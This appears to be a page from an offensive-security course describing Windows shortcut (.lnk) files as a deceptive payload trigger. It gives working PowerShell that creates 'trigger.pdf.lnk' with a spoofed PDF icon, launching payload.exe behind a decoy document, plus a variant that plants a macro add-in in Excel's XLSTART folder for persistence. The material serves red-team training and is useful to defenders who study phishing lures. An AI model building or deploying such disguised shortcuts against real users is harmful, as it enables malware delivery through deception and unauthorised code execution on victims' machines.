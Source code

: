 # Shell Link

A shell link is a binary file format used to create Windows shortcuts.  They have the `.lnk` file extension which is special in that it's not shown in Explorer, even when 'show file name extensions' is enabled.  This allows them to have filenames such as `report.pdf.lnk`, and the user will only see `report.pdf`.  Link files can also be customised to have any icon, so they could link to cmd.exe but have a PDF icon.  These properties make them one of the most deceptive triggers.

The easiest way to create a link is with the **WScript.Shell** COM object via PowerShell.1

```powershell
$wsh = New-Object -ComObject WScript.Shell
$lnk = $wsh.CreateShortcut("C:\Payloads\trigger.pdf.lnk")
$lnk.TargetPath = "%COMSPEC%"
$lnk.Arguments = "/C start payload.exe && start decoy.pdf"
$lnk.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$lnk.Save()
```

![](https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/9c62e8d577a42fc1365a2e1532a64141.png)

You may also store an ICO file as a dependency inside the container, and use that instead of one built into an existing application.

If using an Excel Add-In payload, the arguments for the shortcut should copy the XLAM file to the user's XLSTART directory before opening a decoy spreadsheet to trigger execution.

```powershell
$lnk.Arguments = "/C xcopy /H macros.xlam %APPDATA%\Microsoft\Excel\XLSTART\ && attrib -H %APPDATA%\Microsoft\Excel\XLSTART\macros.xlam && start sales.xlsx"
$lnk.IconLocation = "%ProgramFiles%\Microsoft Office\root\Office16\EXCEL.EXE,0"
$lnk.Save()
```
